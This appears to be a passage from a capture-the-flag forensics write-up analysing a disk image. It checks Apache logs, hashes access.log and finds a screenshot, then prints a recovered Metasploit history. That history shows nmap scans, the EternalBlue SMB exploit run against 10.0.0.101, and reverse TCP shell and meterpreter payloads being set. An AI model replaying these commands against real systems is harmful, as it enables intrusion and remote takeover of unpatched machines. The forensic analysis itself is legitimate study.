 ![](https://i.imgur.com/0zWBot6.png)

![](https://i.imgur.com/yEp6Q2d.png)

![](https://i.imgur.com/vPfXzlu.png)

Now we know that the contents of each file are indeed empty. Since there is no data within the Apache log files, we can safely assume that **apache was ran 0 times**.

Let's retrieve the hash of the apache `access.log` file!

Right-click the `access.log` file > *Export File Hash List* > Give the CSV file a name & save it anywhere you'd like.

Now when we open the file, we'll see both the MD5 & SHA1 hash along with the filename:

![](https://i.imgur.com/LkjlI5m.png)

So the MD5 hash of the `access.log` file is: **d41d8cd98f00b204e9800998ecf8427e**

Time to begin searching through the `root` folder which contains many subdirectories along with many files:

![](https://i.imgur.com/fTNCItS.png)

One file which stood out to me within the `root` folder was a JPEG image named `irZLAohL.jpeg`:

![](https://i.imgur.com/RWRvH2P.png)

We can export this file by right-clicking it > Export Files > Choose a directory to export the file to:

![](https://i.imgur.com/KTMe11W.png)

This image contains a flag, which isn't relevant to this challenge, but the image appears to be of someone's desktop. Perhaps the attacker took this screenshot when they compromised a victim's machine.

 One of the questions asks for the name of a file which proves that the machine we are analyzing was used to attack another machine, this image could be evidence of that. To add onto that, there is a hidden directory called `.ms4` within the `root` directory, this is a directory for metasploit and there's a `history` file within that hidden directory:

![](https://i.imgur.com/0QX387B.png)

The full contents of the `history` file are:

```
hosts
exit
hosts
exit
db_nmap -sV -O -T5 -Pn 10.0.0.101
db_nmap -sV -O -T5 -Pn 10.0.0.101 -oX ~/nmap_out.xml
db_nmap -sV -O -T5 -Pn 10.0.0.101 -oX /root/nmap_out.xml
search eternal
use exploit/windows/smb/ms17_010_eternalblue
options
set RHOST 10.0.0.101
run
show payloads
use windows/x64/shell/reverse_tcp
search eternal
use exploit/windows/smb/ms17_010_eternalblue
show payloads
set payload windows/x64/meterpreter/reverse_tcp
options
```